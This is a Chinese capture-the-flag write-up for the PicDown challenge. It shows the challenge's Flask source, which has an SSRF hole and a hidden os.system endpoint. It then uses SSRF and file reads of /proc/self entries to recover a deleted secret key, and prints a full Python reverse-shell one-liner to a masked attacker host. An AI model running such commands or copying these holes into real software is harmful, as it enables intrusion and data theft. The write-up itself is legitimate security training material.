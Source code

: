 # \[网鼎杯 2020 白虎组]PicDown

## \[网鼎杯 2020 白虎组]PicDown

## 考点

* SSRF
* 任意文件读取
* Flask代码审计

## wp

除了一个框啥都没有，F12看到了请求的参数`/page?url=`

![](<../../.gitbook/assets/image (16) (1) (1) (1).png>)

一开始以为PicDown是下载图片，试了一下发现就是SSRF

![](<../../.gitbook/assets/image (18) (1) (1) (1).png>)

尝试目录穿越文件读取，最后有个app用户

![](<../../.gitbook/assets/image (20) (1) (1).png>)

尝试读取flag，发现可以直接读`http://b7ce4ee5-2c98-41db-beae-1955d540e6bf.node4.buuoj.cn:81/page?url=/flag`访问得到一个图片，应该是非预期了。

![](<../../.gitbook/assets/image (17) (1) (1) (1) (1).png>)

读取`/proc/self/cmdline`文件，得到`python2 app.py`

访问`/proc/self/environ`得到如下

```
MAIL=/var/mail/app
USER=app
HOME=/home/app
LOGNAME=app
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
SHELL=/bin/sh
PWD=/app
```

访问`app.py`，直接访问?url=app.py

```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

可以看到`app.py`在读取`/tmp/secret.txt`后把它删除，然后我们要在`/no_one_know_the_manager`传递一个和`secret.txt`内容相同的字符串才能getshell。虽然它删除了文件，但是是有读取缓存的，在`/proc/pid/fd/`中，一个一个试不难试出来在`/proc/self/fd/3`

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (6) (1) (1) (1).png>)

由于无回显，这又是用的python2，所以直接用python反弹shell即可

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("****",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](<../../.gitbook/assets/image (8) (1) (1) (1).png>)

## 小结

1. 在读取文件时，可以考虑的文件`/proc/self/cmdline`，`/proc/self/environ`，`/proc/cmdline`，`/etc/hosts`
